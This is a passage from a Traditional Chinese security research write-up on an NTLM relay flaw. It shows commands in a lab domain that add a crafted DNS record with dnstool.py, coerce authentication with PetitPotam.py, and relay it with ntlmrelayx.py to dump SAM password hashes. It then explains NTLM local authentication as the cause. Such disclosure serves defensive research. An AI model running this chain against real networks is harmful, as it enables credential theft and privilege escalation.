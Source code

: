 為了尋找異常行為，我們擺弄了不同的參數，例如偵聽器主機或客戶端 IP 位址。
我們註冊了 `srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA` DNS 記錄並使其指向我們的 IP 位址。
當我們用這個 DNS 紀錄作為 listener 來強制 SRV1 時，意外發現一個奇怪的現象：中繼攻擊竟然成功了！

```powershell=
$ dnstool.py -u 'ASGARD.LOCAL\loki' -p loki 192.168.56.10 -a add -r srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 192.168.56.3
[-] Adding new record
[+] LDAP operation completed successfully

$ PetitPotam.py -u loki -p loki -d ASGARD.LOCAL srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA SRV1.ASGARD.LOCAL
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!

# ntlmrelayx.py -t SRV1.ASGARD.LOCAL -smb2support
[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.56.14, attacking target smb://SRV1.ASGARD.LOCAL
[*] Authenticating against smb://SRV1.ASGARD.LOCAL as / SUCCEED
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x0c10b250470be78cbe1c92d1b7fe4e91
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:df3c08415194a27d27bb67dcbf6a6ebc:::
user:1000:aad3b435b51404eeaad3b435b51404ee:57d583aa46d571502aad4bb7aea09c70:::
[*] Done dumping SAM hashes for host: 192.168.56.14
```

更令人驚訝的是，ntlmrelayx.py 能夠遠端轉儲 SAM 蜂巢，這意味著我們轉發的身分在機器上具有特權。
這對我們來說似乎很奇怪，因為機器帳戶在其關聯的機器上沒有特權。

---
## 了解漏洞

在使用 `srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA` 這個主機名稱進行中繼時，發生的是 NTLM 本機驗證！
相反地，當以 IP 位址作為接聽端來強制觸發時，則出現的是 標準 NTLM 驗證。

### 本機 NTLM 驗證

[NTLM 本機驗證](https://davenport.sourceforge.net/ntlm.html#localAuthentication)是 NTLM 驗證的一種特殊情況。在這種模式下，伺服器會在 NTLM_CHALLENGE 訊息中通知用戶端：不需要在 NTLM_AUTHENTICATE 訊息中計算 Challenge Response。

相反地，伺服器會在 Challenge 訊息中設定 “Negotiate Local Call” 標誌，接著建立一個伺服器端的 驗證上下文 (context)，把它加到全域的 context 清單，並且將 context ID 放在訊息的 Reserved 欄位裡。

當用戶端收到這個 NTLM_CHALLENGE 訊息後，就知道必須執行本機 NTLM 驗證。
它會把自己的 token 加入伺服器的驗證 context（透過 Reserved 欄位中的 ID 傳遞）。由於用戶端與伺服器在同一台機器上，所有操作都發生在同一個 lsass.exe 行程中。

最後，用戶端會回傳一個幾乎是空的 NTLM_AUTHENTICATE 訊息，而伺服器則利用它已經擁有的 token 來執行後續操作（在我們的案例中是透過 SMB）。
